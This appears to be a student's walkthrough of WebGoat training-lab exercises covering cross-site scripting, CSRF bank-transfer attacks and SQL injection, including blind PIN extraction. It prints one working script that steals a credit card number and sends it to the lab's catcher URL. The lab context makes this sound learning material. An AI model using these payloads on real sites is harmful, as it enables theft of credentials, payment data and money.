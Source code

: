 # Web-Security-Attack

##Part 1:
The search bar is exploitable since the server displays the input back to the webpage without properly checking the input.
Attacker can then type javascript/html as input which will be displayed and run under the origin of the website.
So my input consists of a </form> close tag to close the websites <form> open tag, html to construct a form, and javascript to steal the username and password

##Part 2:
Digital access code is exploitable since the server displays the error message along with the input if input does not make sense, without properly checking/sanitizing the input. 
Attacker can then type javascript/html as input which will be displayed and run under the origin of the website.  Also the submit button doesn't check the input so when user clicks on "Purchase", the malicious code also gets to run.
So I prepared javascript to steal the credit card information, and to also delete error messages the website may display. In addition, I put the original access code "111" and lots of white spaces in front of my javascript, to hide javacript from user. I then encode my javascript and the white spaces, and put them in an argument of my crafted URL.
Below is the unencoded URL:
http://localhost:8090/WebGoat/start.mvc#attack/1406352188/900?field2=123&field1=111                                                  
<script>
	(function hack() {
		var creditCardNumber = encodeURI(document.getElementsByName('field2')[0].value);
		var url = "http://localhost:8090/WebGoat/catcher?PROPERTY=yes&card=" + creditCardNumber;
		var XSSImage = new Image();
		XSSImage.src = url;
		var message = document.getElementById('message');
		while (message.firstChild) {
			message.removeChild(message.firstChild);
		}
	})();
</script>

##Part 3:
The exploitable field is the message field, because the receiver can click on the title, and loads the message which is not properly checked/sanitized by the server.
Attacker can then type javascript/html as message which will be displayed and run under the origin of the website.
In this question, the user happens to be authenticated, so I prepared the message as an html image tag which makes, via its src attribute, a GET request to the "bank" to transfer some money.

##Part 4:
The exploitable field is still the message field. The situation is similar to part 3; the server does not properly check/sanitze the message, and clicking on the title loads the message that may be malicious. The difference here is the "bank" expects a "CONFIRM" request too.
So attacker just needs to "manually" confirm the transaction using javascript/html, in the message field.
So I prepared an iframe that makes, via its src attribute, a GET request to the "bank"  to transfer fund, and on loading, calls a function sends the hard coded "CONFIRM" string to the "bank" so the transaction can be completed.

##Part 5:
The exploitable field is still the message field. The situation is similar to part 4; the server does not properly check/sanitze the message, and clicking on the title loads the message that may be malicious. The difference here is the "bank" expects a token instead of a "CONFIRM" string.
The transaction can be completed since the token is actually on the web page from the "bank" except it is hidden.
So I prepared an iframe that makes, via its src attribute, a GET request to the "bank"  to transfer fund, and when the submit page from the "bank" loads, I will have access to the hidden token. The iframe calls a javascript function to get that token, and send the transfer fund request again with the token.

##Part 6:
The SQL input box is exploitable since the server does not sanitize the SQL input. So I just close the WHERE condition with ', and add another OR condition which always evaluates to true.

##Part 7:
The SQL input box is exploitable since the server does not sanitize the SQL input. The server will execute more than one SQL query, so I just uses ; to end the first query, and put the two evil queries after the ; for part 1 and part 2 respectively.

##Part 8:
The SQL input box is exploitable since the server does not sanitize the SQL input. So I just add an extra condition to the WHERE clause. The extra condition is an AND whose value comes from a subquery that guess the range of PIN. My initial guess is less than 10000 which turned out to be true.
Then I do a binary search as follows:
1st try: 10000 -> valid
2nd try: 5000 -> valid
3rd try: 2500 -> valid
4th try: 1250 -> invalid
5th try: 1875 -> invalid
6th try: 2188 -> invalid
7th try: 2344 -> invalid
8th try: 2422 -> valid
9th try: 2383 -> valid
10th try: 2364 -> invalid
11th try: 2374 -> valid
12th try: 2369 -> valid
13th try: 2367 -> valid
14th try: 2365 -> valid (answer is 2364)

And arrive at the correct PIN = 2364.
